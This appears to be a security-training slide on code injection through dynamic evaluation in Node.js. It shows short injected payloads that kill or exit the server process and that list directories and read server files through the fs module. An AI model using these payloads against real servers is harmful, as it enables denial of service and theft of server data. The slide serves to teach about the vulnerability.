

# Code Injection: Dynamic Evaluation Attacks-node.js
An alternative DoS attack would be to simply exit or kill the running process:
	process.exit() or
	process.kill(process.pid)

File System Access
	Another potential goal of an attacker might be to read the contents of files from the server. For example, following two commands list the contents of the current directory and parent directory respectively:
	res.end(require('fs').readdirSync('.').toString()) res.end(require('fs').readdirSync('..').toString())
	Once file names are obtained, an attacker can issue the command below to view the actual contents of a file:
	res.end(require('fs').readFileSync(filename))